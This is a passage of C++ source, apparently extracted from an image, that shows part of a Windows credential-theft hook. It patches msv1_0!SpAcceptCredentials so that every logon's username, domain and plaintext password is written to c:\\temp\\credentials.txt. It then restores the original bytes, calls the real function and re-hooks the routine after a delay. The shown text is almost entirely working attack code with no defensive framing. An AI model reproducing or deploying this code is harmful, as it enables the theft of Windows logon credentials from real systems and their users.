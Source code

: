 ```cpp
					break;
				}

				if (i == patternSize - 1)
				{
					patternAddress = (LPVOID)(&startAddress[index]);
					return patternAddress;
				}
			}
		}
		++index;
	} while (index < searchBytes);

	return (PVOID)NULL;
}

NTSTATUS NTAPI hookedSpAccecptedCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	DWORD bytesWritten = 0;
	HANDLE file = CreateFileW(L"c:\\temp\\credentials.txt", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, NULL, NULL);
	_SpAcceptCredentials originalSpAcceptCredentials = (_SpAcceptCredentials)addressOfSpAcceptCredentials;

	// intercept credentials and write them to disk
	WriteFile(file, PrimaryCredentials->DownlevelName.Buffer, PrimaryCredentials->DownlevelName.Length, &bytesWritten, NULL);
	WriteFile(file, "@", 2, &bytesWritten, NULL);
	WriteFile(file, PrimaryCredentials->DomainName.Buffer, PrimaryCredentials->DomainName.Length, &bytesWritten, NULL);
	WriteFile(file, ":", 2, &bytesWritten, NULL);
	WriteFile(file, PrimaryCredentials->Password.Buffer, PrimaryCredentials->Password.Length, &bytesWritten, NULL);
	CloseHandle(file);

	// unhook msv1_0!SpAcceptCredentials
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToRestoreSpAccecptedCredentials, sizeof(bytesToRestoreSpAccecptedCredentials), NULL);

	// hook msv1_0!SpAcceptCredentials again with a delay so that originalSpAcceptCredentials() can execute
	CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)installSpAccecptedCredentialsHook, NULL, NULL, NULL);
	
	// call original msv1_0!SpAcceptCredentials
	return originalSpAcceptCredentials(LogonType, AccountName, PrimaryCredentials, SupplementalCredentials);
}

void installSpAccecptedCredentialsHook()
{
	Sleep(1000 * 5);
	HMODULE targetModule = LoadLibraryA("msv1_0.dll");
	DWORD bytesWritten = 0;

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetModule;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetModule + dosHeader->e_lfanew);
	SIZE_T sizeOfImage = ntHeader->OptionalHeader.SizeOfImage;

	// find address of msv1_0!SpAcceptCredentials
```